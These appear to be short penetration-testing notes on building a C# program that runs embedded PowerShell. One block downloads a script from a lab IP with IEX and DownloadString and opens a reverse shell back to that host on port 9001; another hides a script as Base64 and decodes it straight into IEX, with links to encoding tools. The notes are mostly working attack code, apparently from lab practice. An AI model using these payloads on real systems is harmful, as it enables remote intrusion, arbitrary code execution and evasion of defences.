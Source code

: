 ## Notes - Non-Interactive Template

Adding Powercat invoking into the Non-Interactive template is pretty baller for catching a full language shell
```csharp
// Start
string Command = @"
			
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.216/SimpleCat-TCP.ps1') | IEX
SimpleCat-TCP -c 192.168.45.216 -p 9001 -ep
";
//End
```

We can even Base64 encode or Gzip compress entire scripts within the compiled project
- GZIP: https://www.zickty.com/texttogzip
- Base64 (Unicode): https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')&input=d2hvYW1p
```csharp
// Start
 string Command = @"
                                  
$String = 'RgB1AG4AYwB0AGkA'                
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String(""$String"")) | IEX                 

 ";
// End
```
